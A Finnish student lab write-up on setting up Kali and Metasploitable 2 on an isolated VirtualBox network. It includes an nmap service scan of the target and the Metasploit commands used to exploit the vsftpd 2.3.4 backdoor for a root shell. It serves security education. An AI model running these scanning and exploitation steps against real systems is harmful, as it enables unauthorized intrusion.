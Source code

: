 # h1 OmaLabra 

2.4 7:15 

Virtualbox Host:
	OS: Debian GNU/Linux 11 (bullseye) x86_64 
	Host: Aspire A515-55G V1.08 

## a, b ja c
a) Asenna Kali virtuaalikoneeseen
b) Asenna Metasploitable 2 virtuaalikoneeseen
c) Tee koneille virtuaaliverkko, jossa  
    - Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä
    - Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat yhteyden toisiinsa

latasin [metasploitable](https://sourceforge.net/projects/metasploitable/) 2 ja [kali](https://www.kali.org/get-kali/#kali-installer-images) linuxin 

Virtualboxissa uusi virtuaalikone- nimi kali levykuvaksi juuri ladattu kali 2023.1 

![](TTPictures/T1a.png)

laitoin kalin asentumaan taustalle ja jatkoin metasploitablen asennusta.

metasploitable2

new

Type: Linux
Version: Other Linux(64-bit)

Hard disk - Use an existing virtual ahrd disk file

![](TTPictures/T1b.png)

file - tools - host only network manager
tein uuden host only network, laitoin sen metasploitable nat adapterin sijaan ja kaliin lisäsin toiseksi mahdollisuudeksi joten sillä pääsee tarvittaessa internettiin.

käynnistin metasploitablen, kirjauduin sisään msfadmin käyttäjälle ja ping komentoa käyttämällä tarkistin, että kone ei ollut netissä.
sen jälkeen ifconfig komennolla tarkistin laitteen ip osoitteen.

![](TTPictures/T1d.png)

kun kali oli asentunut tein siitä virtualboxissa snapshotin joten toivottavasti voin välttää uudelleenasennuksen ongelmatilanteissa.

tarkistin kalissa network adapterien toimivuuden ping komennolla.    
host only networkissa komento `ping google.com` antaa:
	ping: google.com: Temporary failure in name resolution
	
ja nat:
	64 bytes from hem09s02-in-f14.1e100.net (216.58.209.174): icmp_seq=7 ttl=63 time=5.94 ms

pingasin metasploitable ip osoitetta kalista jolla sain varmistuksen että host only network toimii niin kuin pitää.

	ping 192.168.56.102
	PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.

	sudo msfdb run
	db_status

aloitin tutkimalla maalikoneen aukinaisia portteja, skannasin ne komennolla db_nmap -A 192.168.56.102

	services
	
	host            port  proto  name         state  info
	----            ----  -----  ----         -----  ----
	192.168.56.102  21    tcp    ftp          open   vsftpd 2.3.4
	192.168.56.102  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
	192.168.56.102  23    tcp    telnet       open   Linux telnetd
	192.168.56.102  25    tcp    smtp         open   Postfix smtpd
	192.168.56.102  53    tcp    domain       open   ISC BIND 9.4.2
	192.168.56.102  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
	192.168.56.102  111   tcp    rpcbind      open   2 RPC #100000
	192.168.56.102  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
	192.168.56.102  445   tcp    netbios-ssn  open   Samba smbd 3.0.20-Debian workgroup: WORKGROUP
	192.168.56.102  512   tcp    exec         open   netkit-rsh rexecd
	192.168.56.102  513   tcp    login        open   OpenBSD or Solaris rlogind
	192.168.56.102  514   tcp    shell        open   Netkit rshd
	192.168.56.102  1099  tcp    java-rmi     open   GNU Classpath grmiregistry
	192.168.56.102  1524  tcp    bindshell    open   Metasploitable root shell
	192.168.56.102  2049  tcp    nfs          open   2-4 RPC #100003
	192.168.56.102  2121  tcp    ftp          open   ProFTPD 1.3.1
	192.168.56.102  3306  tcp    mysql        open   MySQL 5.0.51a-3ubuntu5
	192.168.56.102  5432  tcp    postgresql   open   PostgreSQL DB 8.3.0 - 8.3.7
	192.168.56.102  5900  tcp    vnc          open   VNC protocol 3.3
	192.168.56.102  6000  tcp    x11          open   access denied
	192.168.56.102  6667  tcp    irc          open   UnrealIRCd
	192.168.56.102  8009  tcp    ajp13        open   Apache Jserv Protocol v1.3
	192.168.56.102  8180  tcp    http         open   Apache Tomcat/Coyote JSP engine 1.1
	
tiesin että vsftpd 2.3.4 sisältää backdoor exploitin koska kävimme sen läpi tunnilla, etsin siitä tiedot komennolla `search vsftpd 2.3.4`

![](TTPictures/T1f2.png)  

valitsin exploitin käytettäväksi komennolla `use 0`

tutkin exploittia komennolla `info`

![](TTPictures/T1f3.png)
	
asetin RHOST muuttujan global arvon maalikoneen ip osoitteeksi komennolla `setg RHOSTS 192.168.56.102`  

ajoin exploitin komennolla `run`

![](TTPictures/T1f4.png)

sain maalikoneeseen terminaalin auki root oikeuksilla.

